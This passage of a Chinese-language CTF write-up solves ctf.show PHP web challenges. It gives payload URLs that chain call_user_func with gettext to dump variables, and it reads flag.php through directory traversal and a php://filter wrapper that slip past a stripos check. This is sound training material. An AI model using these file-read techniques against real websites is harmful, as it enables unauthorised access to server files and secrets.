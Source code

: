 [https://www.php.net/manual/zh/function.gettext](https://www.php.net/manual/zh/function.gettext)

[https://www.cnblogs.com/lost-1987/articles/3309693.html](https://www.cnblogs.com/lost-1987/articles/3309693.html)

`gettext()` 用于实现输出的国际化, 在不同区域输出不同语言的内容

本地测试时需要开启 `php_gettext` 扩展

第一层 `call_user_func("_", "xx")` 返回 xx 字符串, 然后被当作回调函数名被第二个 `call_user_func()` 调用

也就是说我们最终利用的函数不能含有参数, 而且必须是一步到位的

因为 flag 定义在变量里, 通过 `get_defined_vars()` 导出变量

```
http://1feb998c-e8d7-4715-800d-92b9dac32473.challenge.ctf.show/?f1=_&f2=get_defined_vars
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121150718.png)

## web129

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121152542.png)

`stripos()` 查找字符串首次出现的位置 (不区分大小写)

data:// 伪协议用不了, php 相关的没想到怎么构造

换个思路, 类似之前强网杯遇到的目录穿越, 构造一个不存在的目录然后 `..`

```
http://5b4335ed-dcba-459c-911e-08766ee4ca09.challenge.ctf.show/?f=./ctfshow/../flag.php
```

注意 `ctfshow` 不能在第一位, 否则的话 `stripos()` 的结果是0

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121429180.png)

hint 的方法如下

```
/ctfshow/../../../../var/www/html/flag.php
```

网上搜了一下发现 php://filter 其实能用

```php
php://filter/ctfshow/resource=flag.php
```

## web130

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121433058.png)

正则可视化 [https://jex.im/regulex/#!flags=&re=.+?ctfshow](https://jex.im/regulex/#!flags=&re=.%2B%3Fctfshow)

模式修饰符 [https://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php](https://www.php.net/manual/zh/reference.pcre.pattern.modifiers.php)
